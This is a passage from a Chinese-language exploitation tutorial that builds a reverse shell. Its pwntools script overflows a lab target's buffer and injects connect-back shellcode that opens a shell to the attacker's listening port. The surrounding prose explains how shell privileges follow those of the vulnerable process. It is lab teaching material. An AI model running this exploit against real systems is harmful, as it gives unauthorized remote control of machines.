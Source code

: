 可以看到如果是以root权限开启shell的话，威力还是非常大的。也就是说被攻击者用什么权限运行的漏洞程序，攻击者远程获取的shell就是什么权限。

## 反连（反向shell）

关于反弹shell可以阅读下面两篇文章

https://xz.aliyun.com/t/2548

https://xz.aliyun.com/t/2549

利用这个反连的话，我们**需要先监听本机的一个端口**（你可以把这个监听理解成打开），然后也是利用一段shellcode，**这个shellcode会实现反弹shell**，**将shell反弹到我在本机开的端口上去。然后用pwntools中的wait_for_connection函数等待着反连**。等到反连成功后，即可在攻击者的窗口开启一个与目标机交互的shell。

```python
from pwn import *
context(arch='amd64',os='linux')

sh = listen(4444)#在本机监听4444端口
io = remote("192.168.43.71",8888)#远程连接到目标机
shellcode = asm(shellcraft.connect('192.168.43.150',4444)+shellcraft.dupsh())#让目标机连接到我们本机开放的端口
io.send('a'*30+p64(0x400669)+shellcode)

sh.wait_for_connection()
sh.interactive()

```

这次kali使用了普通用户来运行漏洞程序，可以看见这次攻击者就没有办法去创建或是删除文件了。


![image-20220411121801511](/upload/img/image-20220411121801511.png)

![image-20220411121804446](/upload/img/image-20220411121804446.png)
